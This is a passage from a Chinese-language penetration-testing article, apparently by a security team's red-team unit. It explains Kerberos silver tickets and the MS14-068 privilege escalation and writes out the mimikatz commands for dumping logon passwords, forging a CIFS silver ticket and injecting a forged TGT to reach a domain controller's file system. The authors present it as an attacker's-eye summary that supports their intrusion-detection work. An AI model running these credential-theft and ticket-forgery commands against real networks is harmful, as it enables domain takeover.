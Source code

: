 Dir \\dc.abc.com\c$

![](http://5b0988e595225.cdn.sohucs.com/images/20200314/156f2199071d43b9a1faa946972655d7.jpeg)

3.4.3 白银票据

黄金票据和白银票据的一些区别：

Golden Ticket：伪造 TGT，可以获取任何 Kerberos 服务权限，且由 krbtgt 的 hash 加密，金票在使用的过程需要和域控通信

白银票据：伪造 TGS，只能访问指定的服务，且由服务账号（通常为计算机账户）的 Hash 加密 ，银票在使用的过程不需要同域控通信

1. 在域控上导出 hash

mimikatz log “privilege::debug” “sekurlsa::logonpasswords”

![](http://5b0988e595225.cdn.sohucs.com/images/20200314/9073daf5426b4510bf82b41f288081c0.jpeg)

2、利用 Hash 制作一张 cifs 服务的白银票据：

kerberos::golden /domain:ABC.COM /sid: S-1-5-21-3912242732-2617380311-62526969 /target:DC.ABC.COM /rc4:f3a76b2f3e5af8d2808734b8974acba9 /service:cifs /user:strage /ptt

cifs 是指的文件共享服务，有了 cifs 服务权限，就可以访问域控制器的文件系统:

![](http://5b0988e595225.cdn.sohucs.com/images/20200314/b88200508da04b37892af005797b69b3.jpeg)

3.4.4MS14-068

MS14-068 域提权漏洞，对应补丁编号：kb3011780，利用该漏洞可以将任何一个域用户提权至域管理员权限。

1、在普通域用户机器上直接访问域控制器的 C 盘目录

2、利用 MS14-068 伪造生成 TGT：

MS14-068.exe -u strage@test.com -s S-1-5-21-457432167-2946190674-2696793547-1103 -d 192.168.140.140 -p Admin@str

3、利用 mimikatz 将工具得到的 TGT 票据写入内存，创建缓存证书：

mimikatz.exe "kerberos::ptc TGT_strage@test.com.ccache" exit

![](http://5b0988e595225.cdn.sohucs.com/images/20200314/a01ea1e8f2b143479456729d6c3d9484.jpeg)

![](http://5b0988e595225.cdn.sohucs.com/images/20200314/4f77fee6aed04a60931c54e7afc39836.jpeg)

4、重新执行 dir 命令：

> dir \\dc\C$

四、总结

本文从攻击者视角总结了突破边界后的攻击技巧， 我们团队开发 ips 规则也从相关协议和流量角度来发现攻击者进入内网的痕迹。后续如果从防护角度有新的分析结果我们也会进行分享出来，同时也欢迎攻防大佬一起交流。由于水平有限，欢迎大家指出文中的错误和交流指教。

参考资料：

> 1、 【Kerberos 的白银票据详解】
> 
> 2、 【深入解读 MS14-068 漏洞】
> 
> 3、 【Windows 安全认证是如何进行的？[NTLM 篇]】
> 
> 4、 【域渗透基础之 Kerberos 认证协议】

* 本文作者：新华三攻防团队，转载请注明来自 FreeBuf.COM [返回搜狐，查看更多](https://www.sohu.com/?strategyid=00001&spm=smpc.content.content.2.1611129122391tw3IGAu "点击进入搜狐首页")

责任编辑：